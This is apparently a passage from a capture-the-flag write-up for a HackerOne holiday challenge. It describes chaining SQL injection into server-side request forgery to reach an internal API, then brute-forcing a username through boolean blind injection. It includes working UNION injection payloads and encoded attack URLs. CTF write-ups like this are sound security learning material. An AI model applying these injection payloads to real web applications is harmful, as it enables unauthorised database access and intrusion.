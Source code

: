 4) Furthermore the challenge mentions the /api/* endpoint. However once we try to enumerate API endpoints we see a message.
```json
"error":"This endpoint cannot be visited from this IP address"
```
This is a strong indication of SSRF to be required to access API endpoints.

5) After a lot of trial and error (and then Adam's hint), trying to reverse the auth MD5 creation is not possible. Also dumping the content via the SQLi does not give any additional information, besides what we already have.
After tampering with our injection (and brainstorming with all the  other troubled players), it seems that we can use the SQLi to nest additional queries, once the query is processed by the server it will also be singed with an MD5 hash that is generated and create the image object. Now the image object can successfully retrieve the desired files

6) Based also on the API response [codes](https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/api), we can identify if endpoints and parameters exist or not. Based on that we are able to identify that the `/user` endpoint exists and that it also accepts two parameters `username` and `password`

An example injection is the one below which will return the following message
`Expected HTTP status 200, Received: 204`

SQL Query
```sql
' UNION SELECT "' union select 1,2,'../api/user?username=grinch'#",1,2# 
```

Injected URL
```
https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=%27+UNION+SELECT+%22%27+union+select+1%2C2%2C%27..%2Fapi%2Fuser%3Fusername%3Dgrinch%27%23%22%2C1%2C2%23
```
The above URL as described creates the signed image that can be accessed by the following URL where the `data` parameter contains the base64 encoded JSON data with the URL and the auth MD5 hash.
```
https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcLy4uXC9hcGlcL3VzZXI/dXNlcm5hbWU9Z3JpbmNoIiwiYXV0aCI6IjEzYTVjMDg4NTFiNjdmNTg5ZDQ1NDBjZGJhMzE2NDhiIn0=
```

7)After a lot of additional fails, and attempting to identify more API endpoints and parameters, we had no luck. So we went back to the /api/user endpoint. We started fuzzing the username parameter and we identified some strange behavior.

 We run our fuzzer (we can adapt the one from day10) against the username, and we notice that  by injecting into the username parameter payloads it would return `Invalid content type detected` for one 1 specific character. We have also included the % character which can be interpreted as  `anything` in database queries. Therefore we can assume that this is a TRUE clause, so we might be able to brute-force the username character by character based on boolean based SQLinjection.

On the below injection, we can inject between the $$ symbols (those are removed in the script just added here to highlight the injection point).

Injection URL:
```sql
' UNION SELECT "' union select 1,2,'../api/user?username=grincha$$%&password=%25'#",1,2#
```
Below we can observe that a TRUE clause is confirmed via the error message and that the next letter on grincha is `d`.
